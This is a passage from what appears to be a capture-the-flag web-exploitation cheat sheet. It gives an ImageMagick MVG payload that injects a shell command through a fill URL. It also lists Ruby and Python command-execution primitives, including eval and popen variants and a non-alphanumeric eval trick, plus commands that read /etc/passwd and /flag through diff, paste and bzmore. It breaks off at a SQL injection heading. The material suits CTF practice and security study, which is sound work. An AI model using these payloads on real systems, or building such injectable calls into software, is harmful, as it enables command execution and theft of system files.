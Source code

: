 ```mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://kaibro.tw";ls "-la)'
pop graphic-context
```

## Ruby Command Executing

- `open("| ls")`
- `IO.popen("ls").read`
- `Kernel.exec("ls")`
- ``` `ls` ```
- `system("ls")`
- `eval("ruby code")`
    - Non-Alphanumeric example: HITCON CTF 2015 - Hard to say
        - `$$/$$` => 1
        - `'' << 97 << 98 << 99` => "abc"
        - `$:`即`$LOAD_PATH`
- `exec("ls")`
- `%x{ls}`
- Net::FTP
    - CVE-2017-17405
    - use `Kernel#open`

## Python Command Executing
- `os.system("ls")`
- `os.popen("ls").read()`
- `os.execl("/bin/ls","")`
- `os.execlp("ls","")`
- `os.execv("/bin/ls",[''])`
- `os.execvp("/bin/ls",[""])`
- `subprocess.call("ls")`
    - `subprocess.call("ls|cat",shell=False)` => Fail
    - `subprocess.call("ls|cat",shell=True)` => Correct
- `eval("__import__('os').system('ls')")`
- `exec("__import__('os').system('ls')")`
- `commands.getoutput('ls')`

## Read File

- diff /etc/passwd /flag
- paste /flag
- bzmore /flag
- bzless /flag
- static-sh /flag
- ...

# SQL Injection
